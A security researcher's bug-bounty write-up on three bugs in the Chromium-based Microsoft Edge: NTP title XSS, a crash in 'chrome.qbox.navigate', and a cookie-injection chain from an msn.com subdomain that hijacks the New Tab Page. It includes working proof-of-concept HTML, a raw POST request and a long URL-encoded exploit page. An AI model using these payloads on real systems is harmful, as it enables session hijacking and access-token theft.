

Microsoft has announced that they will be releasing a Chromium based Edge browser. Chromium (in case you did not know) is an open source browser Google developed, Google Chrome is based on Chromium and soon Microsoft Edge will be based on Chromium as well. On the 20th of August 2019, Microsoft announced a new bug bounty program for this new Chromium based Edge browser. The rules of the program state that only Microsoft owned code will be eligible under this bounty. Meaning the attack surface is very small, but to make up for it Microsoft is offering twice the reward (relative to bounty rewards for EdgeHTML). This means a single eligible bug in this new browser could be worth up to $30,000. In this writeup, I will explain how I managed to earn $40,000 by finding 3 distinct bugs in this new browser. I was also pleasantly surprised to find out that I reported the first valid bug in this program. Here's how.
The New Tab Page (or NTP) is the first page you see when you open a browser or open a new tab. Of course there are many exceptions to that but I am speaking strictly with default settings. The one thing that is unique about the NTP in the new Edge is that it's actually an online website located at:
'https://ntp.msn.com/edge/ntp?locale=en&dsp=1&sp=Bing'
You see, Firefox has an internal 'about:home'/'about:newtab' page. Google Chrome has an offline 'chrome-search://local-ntp/local-ntp.html'. All this is important because remember, we are looking for new things Microsoft is doing with Chromium in order to qualify for their bounty.
This bug was found completely by mistake. You see, when I first opened the new Edge I never thought much of the NTP. I went straight to features that are truly unique in this Edge (relative to Chromium), one such feature is called Collections, although at the time it was out of scope and only enabled through flags. I still wanted to see if I can break it for when it will come into scope.
Collections are like a more robust and feature-filled bookmark, once you add a website into Collections it will take the title, description and an image and add it and display it in the style of a Twitter card. So one of the tests was to see if once I save a webpage that has a title with HTML tags, will the Collections side bar render the HTML in the title? Answer was no.
So after a while I decided to go to bed. The next morning when I opened the new Edge browser for another round, I was greeted with the following NTP:
Do you see it? That small, bold, letter 'a'?
What happened was, because its a new browser, almost any website I visit will become a 'top site' and included in the NTP top sites section without sanitizing the title. Even better was the fact that nothing was stopping me from executing Javascript, so a simple XSS vector worked. Here is a video of it:
You may be wondering why this is significant. So what I have XSS on NTP? Well, the NTP is actually a higher privileged page. The way we can test this on Chromium based browsers is by looking inside the 'chrome' Javascript object.
Here is a clarifying image comparing the 'chrome' object from a normal website with one from the Edge settings page.

Clearly 'edge://settings/profiles' contains more functions in this object and these extra functions are the high privileged functions we are interested in abusing when we can reach them from normal, non-privileged, web content.
So far, we managed to inject Javascript into a higher privileged context from normal web content thus achieving Elevation of Privilege (EoP). Now let's explore what we can actually do in this privileged context.
I got lucky again. Remember that privileged functions can be found within the 'chrome' Javascript object. So that's exactly what I did, I looked for any new objects or functions within the 'chrome' object in hopes I can abuse one to further exploit this EoP bug.
I found an undocumented object at 'chrome.qbox', I could not find any website that discusses it in any detail. I concluded that this must be a unique Microsoft object. But what is it? Let's watch the video:
I found a peculiar function at 'chrome.qbox.navigate' that, through error messages, I found out expects an object of type 'qbox.NavigationItem'.
After a few back and forths, I found out that I can pass a JSON object into this function with this JSON object at least containing a 'url' and 'id'. This is the minimum I needed to make it so it did not throw any errors.
chrome.qbox.navigate({id:0,url:""})
'id' and 'url', until finally I executed the following:
chrome.qbox.navigate({id:999999,url:null})
(69a4.723c): Access violation - code c0000005 (first/second chance not available) ntdll!NtDelayExecution+0x14: 00007ffd`9fddc754 c3 ret
rax=000001ff5651ba80 rbx=000001ff5651ba80 rcx=000001ff5651ba80 rdx=3265727574786574 rsi=000001ff5651ba80 rdi=0000009eb9bfd4f0 rip=00007ffd17814b40 rsp=0000009eb9bfd300 rbp=000001ff4fec30a0 r8=000000000000008f r9=0000000000000040 r10=0000000000000080 r11=0000009eb9bfd290 r12=000000000000006f r13=0000009eb9bfda90 r14=0000009eb9bfd478 r15=00000094b5d14064 iopl=0 nv up ei pl nz na po nc cs=0033 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010206 msedge!ChromeMain+0x9253e: 00007ffd`17814b40 488b02 mov rax,qword ptr [rdx] ds:32657275`74786574=???????????????? Resetting default scope FAULTING_IP: msedge!ChromeMain+9253e 00007ffd`17814b40 488b02 mov rax,qword ptr [rdx] EXCEPTION_RECORD: (.exr -1) ExceptionAddress: 00007ffd17814b40 (msedge!ChromeMain+0x000000000009253e) ExceptionCode: c0000005 (Access violation) ExceptionFlags: 00000000 NumberParameters: 2 Parameter[0]: 0000000000000000 Parameter[1]: ffffffffffffffff Attempt to read from address ffffffffffffffff DEFAULT_BUCKET_ID: INVALID_POINTER_READ PROCESS_NAME: msedge.exe
'qbox.navigate' function and managed to produce different crash signatures which indicated I most certainly have an exploitable crash (RCE) on my hands, from web!
Here is what the semi-final PoC looked like (exploiting the crash is a whole different topic, this just crashes the browser with an exploitable crash for PoC):
<html> <head> <title>test<iframe/src=1/ onload=chrome.qbox.navigate(JSON.parse(unescape("%7B%22id%22%3A999999%2C%22url%22%3Anull%7D")))></title> <body> q </body> </html>
One thing stood out in the previous bugs is that it pretty much relied on XSSing the 'ntp.msn.com' website in order to work from web content. So why not treat 'ntp.msn.com' as a target for some good old web application pentesting. All I needed was an XSS and I would technically have a browser bug since I'm XSSing a privileged page, so I did exactly that.
If you visit 'https://ntp.msn.com/compass/antp?locale=qab&dsp=1&sp=qabzz' I noticed that it looks sort of like a normal NTP except it doesn't load properly, this is somewhat expected but important in this exploit. You see, the normal NTP page 'https://ntp.msn.com/edge/ntp?locale=en&dsp=1&sp=Bing' would almost always load using some sort of cache mechanism, even the source code from it is different than the broken one.
I ran Burp suite and tried to find some bugs on 'https://ntp.msn.com/compass/antp?locale=qab&dsp=1&sp=qabzz'. I ended up finding that if I set a cookie named 'domainId' (shout out to ParamMiner) then it will be reflected in the broken NTP page (and not the normal NTP page) within a script tag. There is no sanitization as far as quotes go so I was able to inject code using this cookie variable.
The great thing about cookies is that you can set cookies that are visible in all subdomains of a given host. So all I need is to find an XSS in any MSN subdomain and I will have the ability to use that to set a cookie and then get JS execution in the broken NTP page. Some reconing and searching later, I was able to find such an XSS within 'http://technology.za.msn.com'. This website is now removed because at the time it seemed to be an old forgotten subdomain with very old technologies used. I quickly found out that basically you have to send a specially crafted POST request which will result in an error message in this website and within this error it reflects the variable value that resulted in the error without sanitization.
The XSS is triggered using the following HTTP request:
POST /pebble.asp?relid=172 HTTP/1.1 Host: technology.za.msn.com User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content-Length: 20 Origin: http://technology.za.msn.com Connection: close Referer: http://technology.za.msn.com/pebble.asp?relid=172 Cookie: PublisherUserProfile=userprofileid=322220CC%2D9964%2D47F9%2DAE30%2D2222258E99A4; PublisherSession=uid=DIN2DWDWDFWWW7L3OHA5N6; ASPSESSIONIDSCCQSRDS=EOJQQDDFGGGEEPCPNFOBL; _ga=GA1.q.21062224016.4569609491; _gid=GA1.q.1840897607.1569609491; _gat=1; __utma=2qq77qq6.21qqqq4016.156qqqq9491.156960qqq.qqqqqq91.1; __utmb=201977236.1.10.1569609491; __utmc=201977236; __utmz=201977236.1569609491.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmt=1; __gads=ID=qqqq5dd817qqqb4:T=1562229492:S=ALNI_MZUnsEhqqqqjxzklxqqqqqJHo1A Upgrade-Insecure-Requests: 1 startnum=90'<b>xss</b>
'<b>xss</b>' reflected and rendered. Replacing that with a common XSS vector resulted in Javascript execution.
An up side, however, is that there is no 'X-FRAME-OPTIONS' header, so I can embed the page using an 'IFRAME' in my own website and perform the required POST request that triggers the XSS on a hidden 'IFRAME', leaving a potential victim oblivious to any fishy business going on.
'localStorage'. This isn't a big issue since both the broken and normal NTP pages are same origin, I was able to access the localStorage entry and simply add my final Javascript code into the cached HTML and boom, I can now take over the NTP page.
'chrome.authPrivate.acquireAccessTokenSilently' which can potentially leak access tokens of the user and perform actions as them.'chrome.authPrivate.getPrimaryAccountInfo(e=>{console.dir(e)})' revealing email address and account number.'chrome.embeddedSearch.searchBox.paste("file:///C://")' (requires tricking user pressing enter)'chrome.embeddedSearch.newTabPage.updateCustomLink(i,"http://www.g.com","http://www.g.com")' (where i=0 to 9999 loop) to ensure we edit all.'chrome.ntpSettingsPrivate.setPref''technology.za.msn.com' within a hidden 'IFRAME''IFRAME' loads after ~42 seconds and XSS payload is triggered in 'technology.za.msn.com''technology.za.msn.com' creates a cookie with 'domain=.msn.com' directive and named 'domainId' that contains our second payload'https://ntp.msn.com/compass/antp?locale=qab&dsp=1&sp=qabzz' when the 'onload' of the hidden 'IFRAME' fires'https://ntp.msn.com/compass/antp?locale=qab&dsp=1&sp=qabzz' is loaded, the XSS payload within 'domainId' cookie is reflected and rendered'localStorage' and inserts our final payload at the start of the cached HTML codeThe reason I use a lot of encoding is due to character limitations as far as the 'domainId' cookie goes.
<html> <head> <body> <iframe src="about:blank" id="qframe" name="msn" style="opacity:0.001"></iframe> <h1>Loading...(ETA 42secs)</h2> <form id="qform" target="msn" action="http://technology.za.msn.com/pebble.asp?relid=172" method="post"> <!-- Encoded payload (Executes in 'technology.za.msn.com') --------------------------------------------------------------------- (qd = new Date()).setMonth(qd.getMonth() + 12); document.cookie = "domainId=" + ('q"*' + unescape('%71%22%2a%66%75%6e%63%74%69%6f%6e%28%29%7b%66%6f%72%28%71%20%69%6e%20%6c%6f%63%61%6c%53%74%6f%72%61%67%65%29%7b%69%66%28%71%2e%69%6e%64%65%78%4f%66%28%27%6c%61%73%74%4b%6e%6f%77%6e%27%29%3e%2d%31%29%7b%77%69%74%68%28%71%6e%74%70%6f%62%6a%3d%4a%53%4f%4e%2e%70%61%72%73%65%28%6c%6f%63%61%6c%53%74%6f%72%61%67%65%5b%71%5d%29%29%7b%71%6e%74%70%6f%62%6a%2e%64%6f%6d%3d%75%6e%65%73%63%61%70%65%28%27%25%33%63%25%35%33%25%37%36%25%34%37%25%32%66%25%34%66%25%36%65%25%34%63%25%36%66%25%34%31%25%36%34%25%33%64%25%32%37%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34%25%32%65%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%32%38%25%32%66%25%34%30%25%37%31%25%36%31%25%36%32%25%32%66%25%32%65%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%32%39%25%32%37%25%33%65%27%29%2b%71%6e%74%70%6f%62%6a%2e%64%6f%6d%7d%77%69%74%68%28%71%61%62%3d%71%6e%74%70%6f%62%6a%29%7b%6c%6f%63%61%6c%53%74%6f%72%61%67%65%5b%71%5d%3d%4a%53%4f%4e%2e%73%74%72%69%6e%67%69%66%79%28%71%61%62%29%7d%7d%7d%7d%28%29%2a%22%71') + '*"q') + ";expires=" + qd + ";domain=.msn.com;path=/"; --------------------------------------------------------------------- unescaped value above (Executes in broken 'ntp.msn.com'), this is all one line and im using with(){} a lot because semicolon not allowed. --------------------------------------------------------------------- function() { for (q in localStorage) { if (q.indexOf('lastKnown') > -1) { with(qntpobj = JSON.parse(localStorage[q])) { qntpobj.dom = unescape('%3c%53%76%47%2f%4f%6e%4c%6f%41%64%3d%27%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%2f%40%71%61%62%2f%2e%73%6f%75%72%63%65%29%27%3e') + qntpobj.dom } with(qab = qntpobj) { localStorage[q] = JSON.stringify(qab) } } } }() --------------------------------------------------------------------- unescaped value above (Executes in normal 'ntp.msn.com') --------------------------------------------------------------------- <SvG/OnLoAd='document.write(/@qab/.source)'> --> <input type="hidden" name="startnum" value="90'<SvG/onLoAd=eval(unescape('%28%71%64%3d%20%6e%65%77%20%44%61%74%65%28%29%29%2e%73%65%74%4d%6f%6e%74%68%28%71%64%2e%67%65%74%4d%6f%6e%74%68%28%29%20%2b%20%31%32%29%3b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3d%22%64%6f%6d%61%69%6e%49%64%3d%22%2b%28%75%6e%65%73%63%61%70%65%28%27%25%37%31%25%32%32%25%32%61%25%36%36%25%37%35%25%36%65%25%36%33%25%37%34%25%36%39%25%36%66%25%36%65%25%32%38%25%32%39%25%37%62%25%36%36%25%36%66%25%37%32%25%32%38%25%37%31%25%32%30%25%36%39%25%36%65%25%32%30%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%35%33%25%37%34%25%36%66%25%37%32%25%36%31%25%36%37%25%36%35%25%32%39%25%37%62%25%36%39%25%36%36%25%32%38%25%37%31%25%32%65%25%36%39%25%36%65%25%36%34%25%36%35%25%37%38%25%34%66%25%36%36%25%32%38%25%32%37%25%36%63%25%36%31%25%37%33%25%37%34%25%34%62%25%36%65%25%36%66%25%37%37%25%36%65%25%32%37%25%32%39%25%33%65%25%32%64%25%33%31%25%32%39%25%37%62%25%37%37%25%36%39%25%37%34%25%36%38%25%32%38%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%33%64%25%34%61%25%35%33%25%34%66%25%34%65%25%32%65%25%37%30%25%36%31%25%37%32%25%37%33%25%36%35%25%32%38%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%35%33%25%37%34%25%36%66%25%37%32%25%36%31%25%36%37%25%36%35%25%35%62%25%37%31%25%35%64%25%32%39%25%32%39%25%37%62%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%32%65%25%36%34%25%36%66%25%36%64%25%33%64%25%37%35%25%36%65%25%36%35%25%37%33%25%36%33%25%36%31%25%37%30%25%36%35%25%32%38%25%32%37%25%32%35%25%33%33%25%36%33%25%32%35%25%33%35%25%33%33%25%32%35%25%33%37%25%33%36%25%32%35%25%33%34%25%33%37%25%32%35%25%33%32%25%36%36%25%32%35%25%33%34%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%34%25%36%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%34%25%33%31%25%32%35%25%33%36%25%33%34%25%32%35%25%33%33%25%36%34%25%32%35%25%33%32%25%33%37%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%37%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%39%25%32%35%25%33%37%25%33%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%38%25%32%35%25%33%32%25%36%36%25%32%35%25%33%34%25%33%30%25%32%35%25%33%37%25%33%31%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%32%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%33%37%25%32%35%25%33%33%25%36%35%25%32%37%25%32%39%25%32%62%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%32%65%25%36%34%25%36%66%25%36%64%25%37%64%25%37%37%25%36%39%25%37%34%25%36%38%25%32%38%25%37%31%25%36%31%25%36%32%25%33%64%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%32%39%25%37%62%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%35%33%25%37%34%25%36%66%25%37%32%25%36%31%25%36%37%25%36%35%25%35%62%25%37%31%25%35%64%25%33%64%25%34%61%25%35%33%25%34%66%25%34%65%25%32%65%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%36%39%25%36%36%25%37%39%25%32%38%25%37%31%25%36%31%25%36%32%25%32%39%25%37%64%25%37%64%25%37%64%25%37%64%25%32%38%25%32%39%25%32%61%25%32%32%25%37%31%27%29%29%2b%22%3b%65%78%70%69%72%65%73%3d%22%2b%71%64%2b%22%3b%64%6f%6d%61%69%6e%3d%2e%6d%73%6e%2e%63%6f%6d%3b%70%61%74%68%3d%2f%22%3b'))"> </form> <script> qframe.onload=e=>{ setTimeout(function(){ location="https://ntp.msn.com/compass/antp?locale=qab&dsp=1&sp=qabzz"; },1000) } qform.submit(); </script> </body> </html>